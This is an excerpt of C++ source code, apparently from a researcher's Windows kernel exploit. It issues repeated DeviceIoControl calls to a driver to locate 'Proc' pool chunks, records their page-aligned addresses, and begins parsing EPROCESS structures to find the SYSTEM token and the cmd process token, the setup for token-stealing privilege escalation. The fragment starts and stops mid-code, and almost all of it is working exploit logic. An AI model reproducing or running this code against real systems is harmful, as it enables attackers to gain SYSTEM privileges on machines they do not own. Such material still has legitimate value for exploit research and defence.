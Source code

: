 ```cpp
                            // "Proc" pool tag
                            INT64 temp_addr = input_buff.start_address + i;

                            // This address might not be page-aligned to 0x1000
                            // so find out how far off from a multiple of 
                            // 0x1000 we are. This value is stored in our 
                            // PROC_DATA struct in the page_entry_offset
                            // member.
                            INT64 modulus = temp_addr % 0x1000;
                            proc_data.page_entry_offset.push_back(modulus);

                            // This is the page-aligned address where, either
                            // small or large paged memory will hold our "Proc"
                            // chunk. We store this as our proc_address member
                            // in PROC_DATA.
                            INT64 page_address = temp_addr - modulus;
                            proc_data.proc_address.push_back(
                                page_address);
                            proc_data.header_size.push_back(x);
                        }
                    }
                }
            }
            iteration++;
        }
        else
        {
            // DeviceIoControl failed
            iteration++;
            failures++;
        }
    }
    cout << "[>] \"Proc\" chunks found\n";
    cout << "    - Failed DeviceIoControl calls: " << dec << failures << "\n";
    cout << "    - Total DeviceIoControl calls: " << dec << iteration << "\n\n";

    // Returns struct of two vectors, one holds Proc chunk address
    // one holds header-size for that Proc chunk.
    return proc_data;
}

void parse_procs(HANDLE device_handle, struct PROC_DATA proc_data) {

    INT64 SYSTEM_token = 0;
    INT64 cmd_token_addr = 0;
    bool SYSTEM_found = false;

    LPVOID output_buff = VirtualAlloc(
        NULL,
        0x8,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE);

    for (int i = 0; i < proc_data.proc_address.size(); i++)
    {
        // We need to map 0x1000 bytes from our "Proc" tag so that we can parse
        // out all the EPROCESS members we're interested in. The deepest member
        // is ImageFileName at offset 0x450 from the end of the header. Header
        // sizes varied from 0x20 to 0x90 in my testing. start_address will be
        // the address of the beginning of each 0x1000 aligned address closest
        // to the "Proc" tag we found.
        DWORDLONG num_of_bytes = 0x1000;
        DWORDLONG padding = 0x4141414141414141;
```